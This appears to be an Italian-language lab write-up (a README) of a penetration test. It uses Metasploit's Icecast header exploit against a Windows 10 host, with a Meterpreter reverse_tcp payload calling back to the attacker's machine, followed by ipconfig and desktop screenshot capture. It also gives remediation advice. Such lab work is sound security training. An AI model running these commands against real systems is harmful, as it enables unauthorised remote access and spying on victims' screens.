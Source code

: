 
# 🔐 **Penetration Test con Metasploit e Icecast su Windows 10**

## 🚀 Introduzione
In questo progetto abbiamo condotto un test di penetrazione su una macchina **Windows 10** con il servizio **Icecast** vulnerabile. Utilizzando il framework **Metasploit** su **Kali Linux**, siamo riusciti a ottenere una sessione **Meterpreter**, visualizzare l’indirizzo IP della vittima e catturare uno screenshot del desktop compromesso.

---

## 🎯 Obiettivi
- 🔍 Identificare la macchina vittima (con Icecast vulnerabile).
- ⚙️ Sfruttare la vulnerabilità per ottenere una shell Meterpreter.
- 📡 Visualizzare l’indirizzo IP della vittima dalla sessione Meterpreter.
- 📸 Catturare uno screenshot del desktop della macchina vittima.

---

## 🌐 Ambiente di Lavoro
- **Attaccante (Kali Linux)**: IP `192.168.1.150`
- **Vittima (Windows 10 con Icecast)**: IP `192.168.1.153`
- **Rete**: 192.168.1.0/24

---

## 📜 Passi Seguiti

### 1️⃣ **Scansione della Rete e Identificazione della Vittima**
Abbiamo innanzitutto identificato la macchina vittima nella rete locale con:
```bash
sudo arp-scan --localnet
```
Una volta trovato l’IP della vittima (`192.168.1.153`), abbiamo verificato la porta di default di Icecast (8000):
```bash
nmap -p 8000 192.168.1.153
```

**📸 Screenshot:**  
_(Inserire screenshot della scansione nmap che mostra la porta chiusa)_

---

### 2️⃣ **Avvio di Icecast sulla Vittima e Verifica**
Sulla macchina Windows 10 abbiamo:
- Avviato **Icecast**.
- Disattivato temporaneamente il firewall o creato una regola di eccezione per la porta 8000.

Quindi, verificando dal browser:
```
http://192.168.1.153:8000
```
Abbiamo ottenuto una risposta, confermando che Icecast era attivo e rispondeva alle richieste.

**📸 Screenshot:**  
_(Inserire screenshot del browser che mostra la risposta di Icecast)_

---

### 3️⃣ **Verifica Porta 8000 Aperta**
Nuovamente con nmap:
```bash
nmap -p 8000 192.168.1.153
```
Ora la porta 8000 risultava **open**, confermando che Icecast era accessibile dalla nostra macchina Kali.

**📸 Screenshot:**  
_(Inserire screenshot della scansione nmap con la porta aperta)_

---

### 4️⃣ **Sfruttamento della Vulnerabilità con Metasploit**
Abbiamo avviato Metasploit:
```bash
msfconsole
```
Configurato l’exploit per Icecast:
```bash
use exploit/windows/http/icecast_header
set RHOSTS 192.168.1.153
set RPORT 8000
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4444
exploit
```

**📸 Screenshot del primo tentativo fallito:**  
_(Inserire screenshot del tentativo fallito)_  

**📸 Screenshot della sessione Meterpreter ottenuta:**  
_(Inserire screenshot della sessione Meterpreter avviata con successo)_  

---

### 5️⃣ **Interazione con la Sessione Meterpreter**
Una volta ottenuta la sessione Meterpreter:
- **Visualizzazione dell’indirizzo IP della vittima**:
  ```bash
  meterpreter > ipconfig
  ```
  Questo comando ha mostrato le interfacce di rete e gli indirizzi IP della macchina vittima.

**📸 Screenshot:**  
_(Inserire screenshot del comando ipconfig eseguito su Meterpreter)_  

- **Cattura di uno screenshot del desktop remoto**:
  ```bash
  meterpreter > screenshot
  ```
  Lo screenshot è stato salvato sulla macchina Kali (ad esempio `/home/kali/OquUbpix.jpeg`).

Per visualizzare l’immagine su Kali:
```bash
xdg-open /home/kali/OquUbpix.jpeg
```

**📸 Screenshot del comando screenshot:**  
_(Inserire screenshot del comando screenshot eseguito con successo)_  

**📸 Visualizzazione dello screenshot:**  
_(Inserire screenshot dell’immagine visualizzata su Kali)_  

---

## 🔒 Post-Exploitation & Considerazioni
Dopo aver raggiunto gli obiettivi, abbiamo:
- Chiuso la sessione Meterpreter:
  ```bash
  meterpreter > exit
  ```
- Riattivato il firewall sulla macchina vittima.
- Proposto di aggiornare Icecast all’ultima versione per correggere la vulnerabilità sfruttata.
- Suggerito di implementare regole IDS/IPS e segmentazione di rete per limitare futuri attacchi.

---

## 📝 Conclusioni
Questo test ha dimostrato come una vulnerabilità in un servizio (Icecast) possa fornire a un attaccante l’accesso remoto a una macchina Windows. Con Metasploit siamo riusciti a:
- Identificare la macchina vulnerabile.
- Avviare un exploit contro Icecast.
- Ottenere una shell Meterpreter.
- Visualizzare l’indirizzo IP della vittima.
- Catturare uno screenshot del desktop remoto.

---

## 📂 Allegati
Nella cartella [`/screenshots`](./screenshots/) sono presenti:
- **nmap_scan.png**: Scansione porta 8000 (chiusa).
- **icecast_browser.png**: Risposta dal browser dopo l’avvio di Icecast.
- **nmap_port_open.png**: Scansione porta 8000 (aperta).
- **exploit_failed.png**: Tentativo fallito di exploit.
- **meterpreter_session.png**: Sessione Meterpreter ottenuta.
- **ipconfig_meterpreter.png**: Output del comando ipconfig.
- **screenshot_command.png**: Comando screenshot.
- **screenshot_view.png**: Visualizzazione dello screenshot catturato.

Tutte le immagini completano visivamente il processo descritto.
